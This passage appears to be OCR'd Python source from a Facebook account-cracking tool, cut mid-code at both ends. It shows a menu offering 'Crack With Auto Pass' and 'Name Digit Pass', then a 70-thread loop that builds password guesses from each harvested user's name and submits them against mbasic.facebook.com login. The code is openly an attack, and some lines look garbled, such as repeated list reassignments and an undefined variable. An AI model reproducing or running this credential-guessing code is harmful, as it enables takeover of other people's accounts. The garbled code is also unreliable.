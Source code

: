         session.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text

    def __pler__(self):

        print(' [1] Crack With Auto Pass ')

        print(' [2] Crack With Name Digit Pass')

        chi = input('\n [?] Choose: ')

        if chi == '':

            print('\n   Select Correct One')

            self.__pler__()

        elif chi in ('1', '01'):

            os.system("clear")

            print(logo)

            print("\033[1;32m      Dont Forget Allah😊 \033[1;37m")

            print(" [$]~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~[$]")

            

            with sarfrazssb(max_workers=70) as ssbworld:

                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia

                    try:

                        uid, name = zsb.split('|')

                        xz = name.split(' ')

                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:

                            pwx = [name, xz[0]+xz[1]]

                            

                            pwx = [name, xz[0] + 'last', xz[0] + 'Frist', xz[0] + 'Last']

                            

                            pwx = [name, xz[0]+xz[1]]

                        else:

                            pwx = [Last, xz[0] + 'Last1', xz[0] + 'first', xz[0] + 'last1']

                        ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")

                    except:

                        pass

            hasil(ok,cp)

        elif chi in ('2', '02'):

            os.system("clear")

            print(logo)
